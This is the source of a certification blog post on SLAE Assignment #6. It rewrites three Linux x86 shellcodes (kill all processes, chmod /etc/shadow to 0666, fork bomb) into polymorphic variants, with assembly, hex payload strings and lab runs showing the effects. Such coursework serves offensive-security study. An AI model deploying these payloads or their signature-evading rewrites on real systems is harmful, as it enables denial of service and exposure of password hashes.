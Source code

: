 ```yaml
---
layout: post
title: "SLAE Assignment #6 | Polymorphic shellcode"
date: 2018-01-26
comments: true
categories:
---
```


Assignment #6 in the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) exam is to create polymorphic versions of 3 shellcodes from shell-storm.

## First one...

is [killing all processes](http://shell-storm.org/shellcode/files/shellcode-564.php):

```
; linux/x86 kill all processes 9 bytes
; root@thegibson
; 2010-01-14
 
section .text
        global _start
 
_start:
        ; kill(-1, SIGKILL);
        mov al, 37
        push byte -1
        pop ebx
        mov cl, 9
        int 0x80
```

I rewrote it as follows:
```
; linux/x86 kill all processes 9 bytes
; polymorphic variant, original version made byroot@thegibson
; 2010-01-14
 
section .text
        global _start
 
_start:
        ; kill(-1, SIGKILL);
        
        mov cl, 9

        ;mov al, 37
        mov al, 74
        shr al, 1

        ;push byte -1
        ;pop ebx
        sub ebx, ebx
        sub ebx, 1

        int 0x80
```

As can be seen, the `mov al, 37` instruction were replaced with a mov and and a shift right, to divide the value.

Then, the `push -1` sequence we're replaced with `sub ebx, ebx` to zero out the register, and then `sub ebx, 1` to get -1.

To finish it off, the `mov cl, 9` instruction were moved to the top.

The size has gone from 9 to 13 bytes, so a 44% increase.

```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-6$ ../tools/shellcode.sh poly_1
\xb1\x09\xb0\x4a\xd0\xe8\x29\xdb\x83\xeb\x01\xcd\x80
```

Running it results in that all programs that the user has right to kill becomes killed.

```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-6$ ../tools/runShellcode.py '\xb1\x09\xb0\x4a\xd0\xe8\x29\xdb\x83\xeb\x01\xcd\x80'
Connection to 172.16.143.141 closed by remote host.
Connection to 172.16.143.141 closed.
```

## Second one...

is [chmod(/etc/shadow, 0666)](http://shell-storm.org/shellcode/files/shellcode-556.php).

Original code:

```
section .text
        global _start
 
_start:
  xor eax, eax

  push eax
  push dword 0x776f6461
  push dword 0x68732f2f
  push dword 0x6374652f

  mov ebx,esp
  push word 0x1b6
  pop ecx
  mov al,0xf
  int 0x80

  mov al,0x1
  int 0x80
```

Polymorphed:
```
ssection .text
        global _start

_start:
  ;xor eax, eax
  sub eax, eax

  push eax

  ;push dword 0x776f6461
  mov dword [esp-4], 0x776f6461

  ;push dword 0x68732f2f
  mov dword [esp-8], 0x68732f2f

  ;push dword 0x6374652f
  mov dword [esp-12], 0x6374652f

  sub esp, 12

  mov ebx,esp

  ;push word 0x1b6
  ;pop ecx
  push word 0x1b60
  pop ecx
  shr ecx, 4

  mov al,0xf
  int 0x80

  mov al,0x1
  int 0x80
```

Changes:
* `xor eax, eax` replaced with `sub eax, eax`
* The string are added to the stack through `mov` instruction and not `push`
* The file-right `0x1b6` is hidden and restored with shift instructions

The size has increased from 33 to 48 bytes (45 %).

Running it:
```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-6$ ../tools/compile.sh poly_2                              
Done
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-6$ ../tools/format_shellcode.py poly_2                     
Python style shellcode:
\x29\xc0\x50\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x10\x89\xe3\x66\x68\x60\x1b\x59\xc1\xe9\x04\xb0\x0f\xcd\x80\xb0\x01\xcd\x80

NASM stylish:
0x29,0xc0,0x50,0xc7,0x44,0x24,0xfc,0x61,0x64,0x6f,0x77,0xc7,0x44,0x24,0xf8,0x2f,0x2f,0x73,0x68,0xc7,0x44,0x24,0xf4,0x2f,0x65,0x74,0x63,0x83,0xec,0x10,0x89,0xe3,0x66,0x68,0x60,0x1b,0x59,0xc1,0xe9,0x04,0xb0
,0x0f,0xcd,0x80,0xb0,0x01,0xcd,0x80
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-6$ ls -l /etc/shadow
-rw-r----- 1 root shadow 1130 Jan 25 14:03 /etc/shadow
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-6$ sudo su root

root@osboxes:/mnt/hgfs/SLAE/assignment-6# ../tools/runShellcode.py '\x29\xc0\x50\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x10\x89\xe3\x66\x68
\x60\x1b\x59\xc1\xe9\x04\xb0\x0f\xcd\x80\xb0\x01\xcd\x80'
root@osboxes:/mnt/hgfs/SLAE/assignment-6# ls -l /etc/shadow
-rw-rw-rw- 1 root shadow 1130 Jan 25 14:03 /etc/shadow
```

## Third one...

is the [forkbomb](http://shell-storm.org/shellcode/files/shellcode-214.php).

Original code:
```
section .text

  global _start

_start:
  push byte 2
  pop eax
  int 0x80
  jmp short _start
```

Polymorphed variant:
```
section .text:
  global _start

_start:
  ;push byte 2
  ;pop eax 
  xor eax, eax
  inc eax
  inc eax
  int 0x80
  jmp short _start
```

Changes:
* Set the value of eax with other instructions

The size has gone from 7 to 8 bytes in size (14 % increase).

Running it results in a fork bomb.
```
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-6$ ../tools/compile.sh poly_3
Done
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-6$ ../tools/format_shellcode.py poly_3                     
Python style shellcode:
"\x31\xc0\x40\x40\xcd\x80\xeb\xf8"

NASM stylish:
0x31,0xc0,0x40,0x40,0xcd,0x80,0xeb,0xf8
tomasuh@osboxes:/mnt/hgfs/SLAE/assignment-6$ ../tools/runShellcode.py "\x31\xc0\x40\x40\xcd\x80\xeb\xf8"
```


---

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE - 569

